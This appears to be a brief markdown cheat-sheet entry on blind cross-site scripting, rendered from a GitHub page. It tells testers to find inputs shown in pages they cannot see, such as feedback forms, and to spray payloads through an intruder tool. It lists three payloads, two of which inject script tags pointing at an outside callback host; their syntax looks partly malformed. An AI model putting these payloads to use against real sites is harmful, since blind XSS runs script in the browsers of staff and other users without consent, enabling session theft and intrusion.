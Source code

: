 # Blind XSS

Search for pages where our input will be reflected in other websites or pages which we don't have any access to. like feedback etc.

Give BXSS all payloads to intruder and send multiple at a time. 



`';"/>`

`';"/><textarea></script><script>/src=//bxss.kiran.com/`

`<script>/src=//bxss.kiran.com/`




